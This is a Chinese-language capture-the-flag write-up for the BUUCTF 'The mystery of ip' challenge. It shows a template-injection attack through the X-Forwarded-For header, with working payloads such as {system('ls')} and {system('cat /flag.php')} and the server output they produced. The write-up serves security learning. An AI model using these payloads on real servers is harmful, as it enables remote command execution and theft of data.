 # T11 happy NewYear

> 题目：BUUCTF [BJDCTF2020]The mystery of ip

_过年中整了点简单的（信我不是偷懒）_

__0x00 审题__

打开看见左上角有个flag，直接点开，里面写：'Your IP is xxxxx'

> 其中有个hint，点开原码得到：<!-- Do you know why i know your ip? -->

想到xff可以修改IP，使用抓包工具尝试

__0x01 解题__

1. 抓包，加入：X-Forwarded-For:123

> 发现回显即为：

```
Your IP is :123
```

> 接下来什么叫SSTI

2. 利用漏洞，构造合适的xff

> [关于SSTI漏洞](https://www.bbsmax.com/A/kPzONx33dx/),[详情](https://blog.csdn.net/qq_33608000/article/details/124813718)

推测其可能为：Smarty模板的SSTI漏洞&&Twig模版注入漏洞

尝试构造：

```
X-Forwarded-For:{7*6}
```

得到回显42

```
X-Forwarded-For:{system('ls')}
```

得到：

```
Your IP is : bootstrap
css
flag.php
header.php
hint.php
img
index.php
jquery
libs
templates_c
templates_c		
```

看到了flag.php

```
X-Forwarded-For:{system('cat /flag.php')}
```

得到答案

__0x02 总结__

1. 关于xff修改IP已经见过并用过了
2. 关于SSTI漏洞
